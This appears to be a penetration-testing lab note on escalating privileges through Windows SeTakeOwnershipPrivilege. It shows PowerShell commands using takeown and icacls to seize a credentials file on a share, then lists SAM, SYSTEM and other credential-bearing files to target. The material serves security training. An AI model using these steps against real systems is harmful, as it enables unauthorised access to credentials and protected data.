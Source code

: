 ## SeTakeOwnershipPrivilege 

**SeTakeOwnershipPrivilege** grants a user the ability to take ownership of any "securable object," meaning Active Directory objects, NTFS files/folders, printers, registry keys, services, and processes. While it is rare to encounter a standard user account with this privilege, we may encounter a service account that. It may also be assigned a few others such as **SeBackupPrivilege**, **SeRestorePrivilege**, and **SeSecurityPrivilege**. With this privilege, a user could take ownership of any file or object and make changes, making a RCE or DOS.

Start by retrieving our privileges (`whoami /priv`). We can use this [script](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1) (more info [here](https://www.leeholmes.com/adjusting-token-privileges-in-powershell/)). Now search for a target file. It's common to find file shares with **Public** and **Private** directories.

Let's check out our target file to gather a bit more information about it:
```console
PS C:\zeropio> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}

FullName                                 LastWriteTime         Attributes Owner
--------                                 -------------         ---------- -----
C:\Department Shares\Private\IT\cred.txt 6/18/2021 12:23:28 PM    Archive
```

We can not see the owner because we don't have permissions over it. We can check the owner of the `IT`{: .filepath} directory:
```console
PS C:\zeropio> cmd /c dir /q 'C:\Department Shares\Private\IT'
```

Now we can use the [takeown](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/takeown) binary to change the ownership:
```console
PS C:\zeropio> takeown /f 'C:\Department Shares\Private\IT\cred.txt'
```

Confirm the change:
```console
PS C:\zeropio> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
```

We may still not be able to read the file and need to modify the file ACL using `icacls` to be able to read it. Let's grant our user full privileges over the target file:
```console
PS C:\zeropio> icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
```

Some local files of interest may include:
- `c:\inetpub\wwwwroot\web.config`{: .filepath}
- `%WINDIR%\repair\sam`{: .filepath}
- `%WINDIR%\repair\system`{: .filepath}
- `%WINDIR%\repair\software, %WINDIR%\repair\security`{: .filepath}
- `%WINDIR%\system32\config\SecEvent.Evt`{: .filepath}
- `%WINDIR%\system32\config\default.sav`{: .filepath}
- `%WINDIR%\system32\config\security.sav`{: .filepath}
- `%WINDIR%\system32\config\software.sav`{: .filepath}
- `%WINDIR%\system32\config\system.sav`{: .filepath}
